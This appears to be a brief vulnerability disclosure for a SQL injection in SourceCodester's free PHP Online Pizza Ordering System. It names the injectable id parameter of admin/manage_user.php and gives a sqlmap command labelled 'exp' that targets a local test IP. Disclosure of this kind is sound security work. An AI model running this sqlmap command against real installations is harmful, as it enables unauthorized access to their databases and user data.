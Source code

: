 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20230223205720244](C:\markdown\images\image-20230223205720244.png)

exp

```
sqlmap.py -u "http://192.168.31.50/php-opos/admin/manage_user.php?id=1"
```

![image-20230223205659995](C:\markdown\images\image-20230223205659995.png)